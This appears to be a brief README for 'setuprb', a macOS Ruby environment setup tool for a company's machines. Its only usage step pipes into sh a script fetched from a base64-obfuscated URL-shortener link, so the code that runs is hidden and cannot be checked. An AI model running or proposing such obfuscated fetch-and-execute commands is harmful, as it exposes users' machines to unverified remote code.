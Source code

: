 # **setuprb** ![picture](img/ruby.png)
`setuprb` makes sure every `Yeojinet` MacOS machine has the exact same Ruby environment, tools and configurations.


## Requirements

SSH access to the `Yeojinet` BravoSprintHub repositories in Bitbucket.


## Usage

From your terminal, execute this command:
```sh
curl -fsSL $(echo aHR0cDovL2JpdC5seS8yTWdDZjd4 | base64 -D) | sh /dev/stdin arg0 arg1
```


## Notes

This is a pre-requisite to properly running the `tuka` gem.
